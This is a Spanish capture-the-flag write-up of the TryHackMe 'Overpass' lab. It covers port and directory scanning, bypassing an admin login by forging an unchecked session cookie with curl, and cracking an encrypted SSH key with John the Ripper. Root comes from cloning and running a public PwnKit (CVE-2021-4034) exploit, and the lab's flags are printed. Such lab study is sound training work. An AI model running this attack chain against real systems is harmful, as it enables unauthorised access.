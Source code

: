 # 📍 Overpass

> 🔊 Plataforma: TryHackMe  
> 🛡️ Nivel de dificultad: Fácil  
> 💡 Preparación OSCP - **igneosec**

---

## 🗕️ Información general

- **Nombre de la máquina**: Overpass  
- **Dirección IP**: 10.10.133.101  
- **Sistema operativo**: Linux (Ubuntu)  
- **Tipo de acceso / Vector de entrada**: Página web (fuga de clave SSH)

---

## 🔍 Enumeración

### 🔹 Escaneo de puertos

```bash
nmap -sS -v -n -p- -oN firstscan --min-rate=5000 10.10.133.101 -Pn
```

> Puertos detectados:
- 22/tcp → ssh
- 80/tcp → http

### 🔹 Detección de versiones y servicios

```bash
nmap -sCV -p22,80 -oN scanOpenPorts 10.10.133.101
```

> Resultados clave:
- OS: Linux (Ubuntu)
- SSH: OpenSSH 7.6p1
- HTTP: Servidor Golang (Go-IPFS JSON-RPC o InfluxDB API)
- Página principal muestra frontend de "Overpass"

### 🔹 Fuerza bruta de directorios

```bash
gobuster dir -u http://10.10.133.101/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 40
```

> Rutas interesantes encontradas:
- `/downloads` → binarios multiplataforma y código fuente en Go
- `/admin` → panel de administración protegido por login

---

## 💡 Enumeración web útil

- ✅ Al explorar la ruta `/downloads`, obtenemos el binario `overpassLinux` y su código fuente `overpass.go`
- ❌ Estudiamos el binario y el código: emplea ROT47 para cifrar credenciales guardadas en `~/.overpass`. Sin acceso al fichero real en la máquina víctima, no fue útil.
- ✅ Durante el análisis del código fuente, detectamos que el usuario "james" aparece en rutas del entorno de desarrollo (`/mnt/c/Users/James/...`) y dentro de cadenas relacionadas con el uso del programa, deduciendo que probablemente fuese un usuario del sistema.
- ✅ También identificamos los archivos JS `login.js` y `cookie.js`. Observamos que el token `SessionToken` se setea en cliente al autenticar, pero **no se valida en el backend**.
- ✅ Esto nos permitió falsificar la autenticación con una cookie arbitraria:

```bash
curl -L -s -b "SessionToken=valor_cualquiera" http://10.10.133.101/admin
```

- ✅ Se accede así al panel `/admin`, donde encontramos una clave privada RSA cifrada `id_rsa.enc`

### 🔐 Crackeo de clave RSA

```bash
# 1. Convertimos el archivo cifrado a hash
ssh2john id_rsa.enc > id_rsa.hash

# 2. Lanzamos John the Ripper con rockyou.txt
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> Contraseña descubierta: **`james13`**

---

## 🌟 Explotación

### 🔥 Confirmación de acceso SSH

```bash
ssh -i id_rsa.enc james@10.10.133.101
# Contraseña: james13
```

> Acceso conseguido como usuario `james`

---

## 📦 Post-Explotación

### 🔐 Enumeración con LinPEAS

- Ejecutamos `linpeas.sh` → se detecta vulnerabilidad **CVE-2021-4034** (Polkit - PwnKit)

### ⚡️ Escalado de privilegios

```bash
git clone https://github.com/A1vinSmith/CVE-2021-4034
cd CVE-2021-4034
python3 CVE-2021-4034.py
```

> Acceso como `root` conseguido

---

## 🏋️ Flags encontradas

### ✅ Flag 1
- **Ruta**: `/home/james/user.txt`
- **Contenido**: `thm{65c1aaf000506e56996822c6281e6bf7}`

### ✅ Flag 2 (root)
- **Ruta**: `/root/root.txt`
- **Contenido**: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

---

## 📚 Lecciones aprendidas

- Aplicación web vulnerable con validación cliente (cookie sin comprobación en backend)
- Lógica de autenticación comprometida → acceso manual al panel admin
- Usuario "james" inferido del análisis de strings del binario de `overpassLinux`
- Clave SSH cifrada crackeada con `John the Ripper`
- Escalado local mediante CVE conocido y validado con LinPEAS

---

📄 Writeup finalizado.

📊 Parte del laboratorio ofensivo: [https://github.com/igneosec](https://github.com/igneosec)
